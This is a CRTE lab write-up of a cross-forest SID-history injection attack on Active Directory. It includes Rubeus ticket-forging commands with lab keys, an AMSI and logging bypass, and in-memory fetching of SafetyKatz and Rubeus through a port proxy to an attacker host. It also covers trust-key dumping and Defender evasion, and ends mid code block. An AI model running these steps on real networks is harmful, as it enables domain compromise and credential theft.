CRTE - Certified Red Team Expert
Cross Forest Attacks - Injecting SID History to Bypass SID Filtering
When working in multi-forest Active Directory environments, understanding the attack paths available through cross-forest trusts is essential. One technique we must focus on is Injecting SID History to Bypass SID Filtering. This research aims to break down this method and explain the key concepts behind it, so we can later apply it in practice during our lab work.
Every user, group, or computer object in Active Directory has a unique SID (Security Identifier). When an account is migrated from one domain to another, SID History is an attribute that stores the old SID(s). This allows the account to retain access to resources in the old domain without needing permission adjustments.
When we have a trust relationship between two forests, a user from Forest A can be granted access to resources in Forest B. However, Microsoft recognized that this could be abused. If we control Forest A, we could create a user and inject a privileged SID from Forest B (like Domain Admin) into its SID History. When that user accesses Forest B, the SID History would trick Forest B into treating it as a Domain Admin.
To prevent this, SID Filtering exists. It is a security mechanism that removes privileged SIDs (RIDs under 1000) when a ticket crosses a forest trust boundary.
How SID Filtering Works
When SID Filtering is enabled on a trust (the default on forest and external trusts), it:
- Blocks SIDs with RIDs under 1000 (e.g., Domain Admins, Enterprise Admins).
- Allows SIDs with RIDs >= 1000 (user-created groups and users) to pass.
Microsoft assumed that RIDs >= 1000 were low-privileged (like standard user groups), but in reality, organizations often create custom privileged groups like ITAdmins, ServerAdmins, etc., with RIDs >= 1000. This assumption opens the door to abuse.
Injecting SID History to Bypass SID Filtering
This attack exploits the fact that SIDs with RIDs >= 1000 are not filtered across a forest trust.
Steps to Perform the Attack:
- Compromise Domain Admin in Forest A (eu.local).
- Enumerate groups in Forest B (euvendor.local) to find a privileged group with RID >= 1000 (e.g.,
EUVendorAdmins). - Extract the SID of the group in Forest B.
- Clone a legitimate TGT into a Diamond Ticket (stealthier alternative to a Golden Ticket).
- Inject SID History for the SID of
EUVendorAdminsinto the cloned TGT. - Pass-the-Ticket (PTT) using the Diamond Ticket.
- Access resources in Forest B as a member of
EUVendorAdmins.
Why This Works:
- RID >= 1000 bypasses SID Filtering.
- We appear as a legitimate member of a privileged group in Forest B.
Limitation:
- We don’t get a map of what we can access after injecting the SID. We have to manually request service tickets and try accessing resources.
Key Difference from Trust Key Abuse
The core difference between SID History Injection and Trust Key Abuse is what we gain:
- SID History Injection → We become a privileged group member in the trusted forest and get access based on that group’s permissions.
- Trust Key Abuse → We become a user from our forest, but only get what is explicitly shared with our forest.
With SID History Injection, if we inject a powerful group, we move freely in the trusted forest.
With Trust Key Abuse, nothing is shared? We get nothing.
When we compromise Domain Admin in a forest, we should immediately enumerate the trusts:
- Check if SID Filtering is enabled to plan for SID History Injection.
- Extract the Trust Key to check for shared resources (Trust Key Abuse).
Both attacks are valuable, but SID History Injection can lead to full compromise of the trusted forest if we find a privileged group with RID >= 1000. Trust Key Abuse is often the lower-hanging fruit but more limited in scope. Understanding both paths allows us to pick the right one based on the environment.
Forging a Golden Ticket to Access eu.local’s Domain controller (eu-dc.eu.local)
User: krbtgt
NTLM: 83ac1bab3e98ce6ed70c9d5841341538
AES256: b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d
Let’s start by encoding our Rubeus.exe argument (golden) using ArgSplit.bat file and do the copy/paste into the session were we will be executing Rubeus.exe.

Let’s now use Loader.exe to execute Rubeus.exe in the memory and forge the inter-realm Golden ticket and open a new session as eu.local domain Administrator user.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d /show /ptt

Uploading files into EU-DC$ machine
We will be uploading some files to carry on our enumeration from eu.local domain Controller. Let’s start by uploading InvisiShell.
InvisiShell is a tool designed to bypass security controls in PowerShell, allowing for the stealthy execution of scripts by circumventing enhanced logging mechanisms and detection by security software.
Here’s a detailed explanation of how InvisiShell works:
- Bypassing PowerShell Security Measures: InvisiShell is specifically created to bypass system-wide transcription, script block logging, and the Anti-Malware Scan Interface (AMSI).
These are security features that Microsoft implemented to monitor and log PowerShell activity.
- System-wide transcription logs all PowerShell commands and their output.
- Script block logging records the content of PowerShell scripts.
- AMSI scans scripts for malicious content before they are executed.
- Hooking .NET Assemblies: InvisiShell achieves its bypass by hooking into the .NET assemblies
System.Management.Automation.dllandSystem.Core.dll. - This is accomplished using a CLR (Common Language Runtime) profiler API.
- A CLR profiler is a DLL loaded by the CLR at runtime to intercept and modify the behavior of these assemblies via the profiling API.
- Methods of Use: InvisiShell can be launched in two ways, depending on the user's privileges:
- With administrator privileges: The
RunWithPathAsAdmin.batscript is used. - Without administrator privileges: The
RunWithRegistryNonAdmin.batscript is used. This method creates a CLR profiler and starts a new PowerShell session with disabled logging. - Incapacitating Security Features: By hooking into these .NET assemblies, InvisiShell disables system-wide transcription, AMSI, and script block logging for the current PowerShell session.
- Avoiding Detection: When using InvisiShell, the tool hooks to
System.Management.Automation.dllandSystem.Core.dll, which allows it to avoid system-wide transcription, script block logging, and AMSI. - Integration with Other Tools: The sources show that InvisiShell can be used in conjunction with other tools, such as PowerUp, PowerView, the AD module, and other PowerShell scripts.
- Clean-up Process: To complete the clean-up, users must type
exitin the new PowerShell session created by InvisiShell. - Modified Version: The class uses a slightly modified version of InvisiShell.
- Location of Tools: All the tools, including InvisiShell, used in the lab environment are located in the
C:\ADdirectory on the student VM. The lab manual also notes that this directory is exempted from Windows Defender, but AMSI may still detect some tools when loaded. - InvisiShell and Binaries: It is noted that binaries like
Rubeus.exemay be inconsistent when used from within an InvisiShell session and should be run from a normal command prompt. - Example Usage: The lab manual provides examples of using InvisiShell to launch a PowerShell session, import modules, and run commands to exploit a service, bypass AMSI, and extract credentials from a remote machine.
In summary, InvisiShell is essential for maintaining stealth in the lab environment by allowing the user to execute PowerShell scripts without triggering the enhanced logging and security features of Windows. The tool is used to bypass security controls in PowerShell, specifically designed to circumvent enhanced logging mechanisms and detection by security software.
It’s always good that we do run Invisi-Shell via cmd before we start doing our enumeration and right after script execution, Powershell will be executed. This script should be executed depending on the type of privilege we do have on the machine.
If we are just a simple low level privileged user, then we should run `RunWithRegistetyNonAdmin.bat.
If we are a high level privileged user like Administrator for example, then we should run RunWithPathAsAdmin.bat.echo D | XCOPY C:\AD\Tools\InviShell \\EU-DC.eu.local\C$\Users\Public /E /H /C /I /Y`

Let’s upload our .Net loader to the EU-DC$, we will be using this loader to run Rubeus.exe in the memory, avoiding MDI Detection.
We won’t be mapping any driver x as usual because mapping drivers do no work with Cross-Forest Trust, so we can copy the file with the following way.
echo F | XCOPY C:\AD\Tools\Loader.exe \\eu-dc.eu.local\C$\Users\Public\Loader.exe /y

> NOTE: ADModule is already enabled by default on Domain Controllers, do don’t need to upload. BUT… In case we do not have ADModule enabled by default, we can upload the it using the following way.
We should Also upload ADModule for our enumeration with ADModule.
echo D | XCOPY C:\AD\Tools\ADModule-master \\EU-DC.eu.local\C$\Users\Public /E /H /C /I /Y

Breaking Down the Command:
XCOPY→ The command for copying files and directories.C:\AD\Tools\ADModule-master→ The source folder you want to copy.\\EU-DC.eu.local\C$\Users\Public→ The destination folder./E→ Copies all subdirectories, including empty ones./H→ Copies hidden and system files./C→ Continues copying even if errors occur./I→ Assumes the destination is a directory (avoids prompts)./Y→ Suppresses overwrite confirmation prompts.
Last but not least we will be uploading PowerView module as well.
echo F | XCOPY C:\AD\Tools\PowerView.ps1 \\EU-DC.eu.local\C$\Users\Public /Y

Now that we have uploaded all the files that we will need inside the eu.local DC, let’s start by running InvisiShell to try to bypass PowerShell defense mecanisms like, System-wide transcription, Script Block Logging, AMSI, .
.\RunWithRegistryNonAdmin.bat

Now that we were able to execute InvisiShell and we could bypass PowerShell defense mecanisms, we can carry on with our Trusts enumeration that eu.local domain contains.
Enumerating Trust Forests with AD Module
When enumerating a forest trust, the following trust properties help us understand if SID filtering is enabled:
- TrustAttributes (Value: 72 / 0x48) → This means
TREAT_AS_EXTERNAL+FOREST_TRANSITIVE, which enforces SID Filtering. - SIDFilteringForestAware: True → Confirms SID filtering is enforced.
- SIDFilteringQuarantined: False → Indicates no additional quarantine filtering, which is typical for forest trusts.
If we see TrustAttributes = 0, SID Filtering is off, and we could inject Domain Admin SIDs from Forest B.
Please, be aware that, because we are using winrs to remote access the EU-DC$, Import-Module will no work with .ps1 files, in this case we will be using dot source solution. We can do our enumeration on Trusts in eu.local domain.
Get-ADTrust -Filter *

- Direction: Shows the direction of the trust. It can be
Inbound,Outbound, orBidirectional(in this case, Bidirectional). - DisallowTransitivity: Indicates whether transitive trust is disabled.
Truemeans transitivity is blocked,Falsemeans transitive trust is allowed. - DistinguishedName: The LDAP path to the trusted domain object within AD.
- ForestTransitive: Specifies if the trust is forest-wide transitive.
Truemeans it allows authentication across the entire forest. - IntraForest: Indicates whether the trust is within the same forest.
Trueif it is,Falseif it’s cross-forest. - IsTreeParent: Specifies if the trusted domain is the parent in a domain tree structure. Typically
Falsein cross-forest trusts. - IsTreeRoot: Indicates if the trusted domain is a root domain in a tree. Usually
Falseunless it’s a tree-root trust. - Name: The DNS name of the trusted domain (
euvendor.local). - ObjectClass: The object type, typically
trustedDomainfor trust objects. - ObjectGUID: The unique identifier (GUID) of the trust object in AD.
- SelectiveAuthentication:
Trueif selective authentication is enabled, meaning only specific users are allowed to authenticate across the trust. - SIDFilteringForestAware: Indicates if SID filtering is enabled with forest awareness.
Truemeans SID filtering is enforced to protect against SID history attacks. - SIDFilteringQuarantined: Shows if SID filtering is in quarantine mode.
Truemeans extra restrictions are applied. - Source: The source domain (your current domain).
- Target: The target trusted domain (
euvendor.local). - TGTDelegation:
Trueif the trust allows TGT delegation (Kerberos delegation across the trust). - TrustAttributes: A numeric value representing specific trust settings (bitmask).
- TrustedPolicy: Policy details for the trusted domain (often empty unless custom policies are applied).
- TrustingPolicy: Policy details for your domain’s side of the trust (often empty unless custom policies are applied).
- TrustType: Describes the type of trust.
Uplevelmeans it’s a trust with another Active Directory domain. - UplevelOnly:
Trueif the trust is only for Active Directory domains (not NT4 or legacy systems). - UsesAESKeys:
Trueif the trust supports AES encryption for Kerberos. - UsesRC4Encryption:
Trueif the trust supports RC4 encryption for Kerberos.
If SID history filtering is enabled, we should focus on these key properties from the screenshot:
- TrustAttributes (72 -
0x48) → This tells us SID filtering is enforced due toTREAT_AS_EXTERNAL, which strengthens SID restrictions across the trust. - SIDFilteringForestAware (
True) → Confirms that SID filtering is actively applied to prevent privileged SID injection. - SIDFilteringQuarantined (
False) → Shows that quarantine-level filtering is not applied, meaning default SID filtering rules are in effect. - SelectiveAuthentication (
False) → Indicates users from the trusted domain can authenticate without explicit approval, which could still allow privileged group abuse with RIDs >= 1000.
Enumerating Trusts with PowerView
It is also possible to achieve the same enumeration above by using PowerView module, so let’s Import PowerView into our target. Once again, using Import-Module won’t work fine here since we are using winrs to remotelly access the eu.local domain controller. Let’s use Dot Sourcing to achieve this task.
. .\PowerView.ps1Get-DomainTrust -Verbose

As we can see above, PowerView output seems to be more friendly in my option and it is self-explanatory.
- SourceName – This is the domain we’re currently enumerating from (in this case,
eu.local). - TargetName – This is the domain that our domain trusts (e.g.,
us.techcorp.localoreuvendor.local). - TrustType – Specifies the type of trust:
- WINDOWS_ACTIVE_DIRECTORY means it’s a standard AD trust between domains.
- TrustAttributes – Flags describing trust behavior:
- FILTER_SIDS means SID filtering is enabled (restricts SID history attacks).
- TREAT_AS_EXTERNAL is often seen in forest trusts, treating it like an external trust for tighter security.
- FOREST_TRANSITIVE means the trust is transitive across the entire forest, allowing potential pivoting deeper.
- TrustDirection – Describes the flow of trust:
- Bidirectional means both domains trust each other (full two-way trust).
- WhenCreated – Timestamp for when the trust was first created.
- WhenChanged – Timestamp for when the trust was last modified.
This output gives us key insights into our potential pivoting paths, whether SID filtering blocks abuse, and whether we might leverage forest transitivity for wider access.
Since SID filtering is active, we cannot inject high-privilege SIDs (like Domain Admins), but we can still look for groups with RIDs >= 1000 to pivot across the trust. Next, we should enumerate groups in euvendor.local and find one with privileged access.
Enumerating groups with SID>1000 in euvendor.local with ADModule
We are specifically looking for SIDs with RID > 1000 because SID Filtering is enabled (SIDFilteringForestAware: True).
This is a security control that blocks privileged SIDs with RIDs < 1000 (like Domain Admins, Enterprise Admins) from crossing forest trust boundaries.
SIDs with RIDs >= 1000 are treated as user-created groups or accounts and are NOT stripped by SID Filtering. That’s the loophole.
When SID Filtering is enabled, we can’t inject Domain Admins (RID 512) or Enterprise Admins (RID 519) from euvendor.local because those would be blocked. However, custom privileged groups created by admins in euvendor.local (like ITAdmins, ServerAdmins, DBA Group, etc.) often have RIDs >= 1000. Those SIDs are not filtered, so if we inject one of them into our SIDHistory, we can impersonate a privileged group member in euvendor.local.
We will need our target Domain SID and this can be easily enumerated using ADModule as well. I’ll be getting both eu.local and euvendor.local Domain SIDs.
Get-ADDomain | Select-Object Name, DomainSIDGet-ADDomain -Server 'euvendor.local' | Select-Object Name, DomainSID

Now that we do have our target Domain SID, we can enumerate for Groups with RIDs greater than 1000 on euvendor.local.
Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server 'euvendor.local'

In euvendor.local, there are three notable groups with RIDs greater than 1000.
The DnsAdmins group has a RID of 1101, which is often privileged as it can control the DNS service, sometimes leading to command execution on domain controllers.
The DnsUpdateProxy group has a RID of 1102, but it's generally low-privileged and not usually interesting from an attack perspective.
The most important finding is the EUAdmins group, with a RID of 1103. This group sounds like it might have administrative rights within the euvendor.local domain.
Since its RID is over 1000, it’s a perfect candidate for SID History Injection. If we inject this group’s SID into our ticket, we can likely escalate our privileges within euvendor.local and potentially gain control over the forest. This is the kind of high-value group we were hoping to find during our enumeration.
Enumerating Computers in euvendor.local with ADModule
Since we do have a Bidirectional Cross-forest Trust between eu.local and euvendor.local, we can also, enumerate if there are some computer’s inside euvendor.local forest as well.
Get-ADComputer -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server 'euvendor.local'

I’s is possible to see that, inside euvendor.local we do have EUVENDOR-DC and EUVENDOR-NET computers.
Portforwarding to bypass EDR
What If we simply download and execute Rubeus in memory now using our Loader.exe on the target machine?
We could simply run Rubeus calling it straight from our attacking IP, but we would easily be caught by Defender or any sort of defense mechanism in place on our network.
Let’s highlights the importance of my statement above.
Evading detection by security tools when performing actions such as credential dumping with tools like SafetyKatz can be a trigger to compromise all our Red Team operation and let me tell you why.
- Direct Execution is Easily Detected: Running tools like Rubeus directly from an attacker's IP address makes it easy for security tools to detect the activity. Security mechanisms, such as Windows Defender and Microsoft Defender for Endpoint (MDE), are designed to identify known malicious tools, their signatures, and their behaviors.
- Signature-Based Detection: Security tools often use signature-based detection to identify known malicious software. If Rubeus is run directly, its known signatures can trigger alerts.
- Behavior-Based Detection: Security tools also monitor the behavior of programs. Running Rubeus directly, especially when it tries to access the memory of the LSASS process, can trigger behavioral-based detections.
- Network Traffic Monitoring: When Rubeus is executed from an external IP, it generates network traffic that can be monitored and flagged by security tools.
- Downloading from External Sources: Downloading an executable from a remote machine is considered suspicious and can trigger behavior-based detection by Windows Defender.
- Process Creation and Command Line Logs: Process creation logs and command line logs can reveal suspicious activity, such as the execution of known hacking tools with particular arguments.
- LSASS Process Access is a Red Flag: Tools like SafetyKatz attempt to access the LSASS process to extract credentials from memory. This is a highly suspicious activity that will easily be detected and is a major indicator of a malicious attack.
- Bypassing Detection Mechanisms: To avoid detection, attackers need to implement various bypass techniques, including:
In summary, running Rubeus directly from an attacking IP is highly likely to be detected by most modern security tools. Therefore, attackers use advanced techniques like obfuscation, memory loading, process injection, and port forwarding to evade detection. The course material emphasizes these techniques in order to learn about these types of attacks and to improve red team Opsec.
To avoid being caught by any defensive mechanism, we can simply create a PortForwarding on the target machine then call Rubeus using it’s localhost IP.
Assuming we are inside or EU-DC$ server, let’s create the portforwarding.
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=192.168.100.163

netsh interface portproxy add v4tov4:
- Obfuscation: Obfuscating the tool's code and arguments to avoid signature-based detection. This can involve renaming variables, removing comments, and encoding parameters.
- Memory Loading: Loading the tool into memory without writing it to disk, using a tool like a loader, avoids file-based detection.
- Process Injection: Injecting shellcode into a trusted process can allow covert execution without using standard API calls that are heavily monitored.
- Port Forwarding: Forwarding network traffic from the local machine to a student VM can mask the attacker's IP address and evade detection.
- Using Built-in Tools: The course emphasizes using built-in tools as much as possible, as they are less likely to be flagged by security software. For example, using
netshto set up port forwarding or built-in Windows utilities over custom tools. - Mimicking Normal Behavior: Downloading tools using a web browser instead of a command-line tool, for example, can help blend in with normal network activity.
netsh interface portproxy: This is the part of thenetshutility that deals with port forwarding. It allows forwarding TCP traffic from one IP/port combination to another.add: Specifies that you're adding a new forwarding rule.v4tov4: Indicates that both the listening and connecting addresses use IPv4.
2. listenport=8080:
- The port on the local machine (target machine) where the service will "listen" for incoming connections.
- In this case, the machine will listen on port
8080.
3. listenaddress=127.0.0.1:
- The IP address on the local machine where the service will listen for connections.
0.0.0.0means it will listen on all network interfaces available on the machine (e.g., public, private, or loopback IPs).
4. connectport=80:
- The port on the remote machine (Out Attacking Machine) to which traffic will be forwarded.
- In this case, port
80(commonly used for HTTP).
5. connectaddress=192.168.100.163:
- The IP address of the remote machine (Our Attacking Machine).
This port forwarding setup redirects traffic received on port 8080 from our compromised machine to port 80 on our attacking macchine (192.168.100.163), which acts as a bridge. We can check this portforwarding with the following command.
netsh interface portproxy show all

Hosting Rubeus.exe
We should be hosting our SafetyKatz and Rubeus in our attacking host. This will be requested by our Target EU-DC$.

Disabling Defender
Before we carry on with our target host, we need to disable our firewall on our side. This way we can host the file on our machine with no issues, without having the firewall complaining.

Last but not least first start by encoding our Safetykatz argument (lsadump::trust) using ArgSplit.bat file and copy/paste the encoded argument into US-DC host where we will be running SafetyKatz.
ArgSplit.bat

We should now be able to execute SafetyKatz on the DC and request for the Trust Key for eu.local to euvendor.local.
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /patch" "exit"

`bash
Domain: EUVENDOR.LOCAL (EUVENDOR / S-1-5-21-4066061358-3942393892-617142613)
[ In ] EU.LOCAL -> EUVENDOR.LOCAL
* 2/19/2025 9:01:53 PM - CLEAR - 16 82 17 dc 8e 73 b3 f0 82 44 ce 5c 98 c6 05 fc 9a ed df 9c cf 7e d6 49 01 41 5c 99 0e 6b de 5c 1a 3e 9b 9d f5 82 3d 1b 2c 13 27 cb c9 f6 e5 87 48 dc f1 75 df f1 72 93 67 79 8c 63 d9 8d f2 80 4f 1b 16 60 dd 4f a0 d9 41 51 5c fc 33 72 8a 54 32 19 f3 a0 e5 78 eb 50 00 7e e6 e6 cd a9 8d 6a b3 43 95 ab 4c 11 37 d5 b1 1d 16 4c fa f6 74 75 68 3b 4b 78 50 27 fa 8f 67 8f 68 94 1c 93 89 01 76 3c 6d 14 03 e5 58 82 23 5d 3a 14 51 f3 93 17 10 83 26 e0 87 51 e5 4a 64 13 c7 62 34 c0 1d fe ce 95 fa 74 a4 ba 87 a0 b5 46 79 5a e1 34 71 5f 7f 63 c4 fe 12 b2 49 51 a4 80 24 fc fe ae bb ff 01 ee b6 6d 6e 6c f2 91 70 ac 72 48 74 ec 9a b7 d5 19 9f 73 ff 66 a9 53 97 44 41 8a 35 64 ee 24 77 fa 21 20 df 89 a7 7e fd 87 eb 6c 57 08 4e 14
* aes256_hmac 2c8c05ef394af2aa26aac788c26970dff4308059f9acaa4494d37ee068a65486
* aes128_hmac 65063d5cfdad146a10d11c7d0d7f033b
* rc4_hmac_nt c46ba47dccf2d4138fca73fef8c1f061
`
Forging the Inter-Real TGT Ticket
The next logical step is to forge an inter-realm ticket between eu.local and euvendor.local. Since we identified that the EUAdmins group in euvendor.local has a RID of 1103, and we know that RIDs >= 1000 bypass SID Filtering, this group is an ideal target. We will create a silver ticket, and inject the SID of the EUAdmins group into the SIDHistory field. This will allow us to impersonate a member of EUAdmins when accessing resources in euvendor.local. Once the ticket is forged and injected into memory, we can proceed to request service tickets and attempt to access high-value resources within the euvendor.local domain, effectively escalating our privileges in the target forest. This is where the real validation of our SID History attack will happen.
Now let’s first start by encoding our Safetykatz argument (silver) using ArgSplit.bat file and copy/paste the encoded argument into US-DC$ host where we will be running Rubeus.
ArgSplit.bat

We will inject the SID History for the EUAdmins group as that is allowed across the trust
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /user:administrator /ldap /service:krbtgt/eu.local /aes256:2c8c05ef394af2aa26aac788c26970dff4308059f9acaa4494d37ee068a65486 /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /nowrap

`bash
